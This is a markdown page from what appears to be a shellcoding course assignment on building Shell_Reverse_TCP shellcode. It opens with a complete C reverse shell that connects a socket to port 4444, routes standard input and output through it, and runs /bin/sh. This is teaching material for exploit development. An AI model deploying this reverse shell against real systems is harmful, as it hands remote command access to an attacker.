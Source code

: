 ```yaml
---
title:  Assignment 2
description: Create a Shell_Reverse_TCP shellcode
order: 2
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

As we did with the bind shell, let's start with a c model:
```c
/* reverse_shell_model.c
 *  - connect to a host, provide shell.
 */

#include <sys/socket.h>	// socket, AF_INET, SOCK_STREAM
#include <unistd.h>	// dup2
#include <netinet/in.h>	// sockaddr, htons, INADDR_ANY
#include <arpa/inet.h>	// inet_addr

int main() {
	int port = 4444;
	const char *host = "0.0.0.0";
	int sockfd;
	struct sockaddr_in sockaddr;

	// Build socket

	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// Connect socket to host

	sockaddr.sin_family = AF_INET;
	sockaddr.sin_port = htons(port);
	sockaddr.sin_addr.s_addr = inet_addr(host);
	connect(sockfd, (struct sockaddr *) &sockaddr, sizeof(sockaddr));

	// Route i/o through connection

	dup2(sockfd, 0);
	dup2(sockfd, 1);
	dup2(sockfd, 2);

	// Execute /bin/sh

	execve("/bin/sh", 0, 0);

	return 0;
}
```
